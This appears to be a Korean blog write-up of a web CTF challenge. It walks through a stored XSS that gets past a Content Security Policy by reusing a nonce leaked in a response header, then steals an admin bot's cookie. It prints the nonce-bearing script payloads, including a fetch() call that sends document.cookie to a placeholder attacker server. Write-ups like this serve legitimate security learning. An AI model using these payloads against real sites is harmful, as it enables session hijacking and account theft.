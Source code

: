 ```yaml
---
layout: post
title: "Falling Slowly... Again"
image: GR1.png
date: 2025-09-17 14:55:00 +0900
tags: [web, hacking, google]
categories: web
---
```


Google Beginner's Request

Falling Slowly... Again

***

**Google Beginner's Request - Falling Slowly... Again**

![]({{site.baseurl}}/images/GoogleRequest/FSA/1.png)


`This site boasts a defense against XSS, but its security is like a falling leaf – slow and predictable. It relies on a mechanism that, while sound in theory, has a fatal flaw in its execution. Can you exploit this weakness to inject your own malicious code and take control?`

이 사이트는 XSS 방어 기능을 자랑하지만, 보안은 마치 떨어지는 나뭇잎처럼 느리고 예측 가능합니다. 이론적으로는 안전하지만 실행에 치명적인 결함이 있는 메커니즘을 사용합니다. 이 취약점을 악용하여 악성 코드를 삽입하고 시스템을 장악할 수 있을까요?


![]({{site.baseurl}}/images/GoogleRequest/FSA/2.png)

들어가면 name과 admin에게 전송할 링크를 입력받는다.

name의 경우, Digital_Phantom란에 입력한 값이 적히는 방식이다.

admin에 전송할 링크 전송 시 admin이 그 링크로 이동하는 시스템이다.

따라서

1. name에 XSS를 삽입한다.
2. admin에게 링크를 전송한다.
3. 링크를 클릭한 admin의 document.cookie를 탈취한다.

이렇게 전개하면 될 거 같다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/3.png)

우선적으로 간단한 스크립트문을 삽입하여준다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/4.png)

삽입 후 확인 시 CSP 정책에 의해 막히는 걸 볼 수 있다.

CSP의 경우는 보통 요청 값이나 응답 값에 노출되는 경우가 있다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/5.png)

/favicon.ico의 패킷 확인 시 응답 값에서 CSP를 확인할 수 있으며

하단의 Style의 경우, nonce="b04ppxGUAjltHc4UXpjG6ggg"를 사용하여 CSP 정책을 통과하는 것을 볼 수 있다.


따라서 스크립트 문에 nonce="b04ppxGUAjltHc4UXpjG6ggg"를 삽입하여

작성 시 CSP 정책을 우회할 수 있을 것이다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/6.png)

아까와 같이 스크립트를 삽입한다.
삽입한 구문은 
{% highlight js %}
<script nonce="b04ppxGUAjltHc4UXpjG6ggg">alert(1)</script>
{% endhighlight %}
으로 CSP 정책을 우회하게끔 작성하였다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/7.png)

작성된 구문으로 요청 값을 보낼 시 예상과 같이 스크립트 문이 실행된다.
이를 통해 CSP를 우회한 스크립트문을 삽입할 수 있다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/8.png)

name값에 악성 스크립트문을 작성하여 요청을 보낼 경우, 공격자의 서버로 전송이 되었다.

{% highlight js %}
<script nonce="bO4ppxGUAjltHc4UXpjG6ggg">fetch('[주소]?flag='+document.cookie)</script>
{% endhighlight %}

ADMIN에게 name에 스크립트문 삽입한 URL을 보낼 경우 admin의 document.cookie값을 알아낼 수 있다.

![]({{site.baseurl}}/images/GoogleRequest/FSA/9.png)

FLAG 획득 완료

**시행착오**

두 달간 못풀었던 문제이다.

CSP 우회하는 방법은 알아냈는데, 

ADMIN에게 보내는 방법을 몰라 헤맸다.

화나는 점은 그냥 name에 스크립트문 삽입한 걸 admin에 전송하면 되는건데

그걸 헤매서 삽집하다 두 달이나 걸렸다.

### 99% 풀어놓고 하이고 하이고오!!!!!!
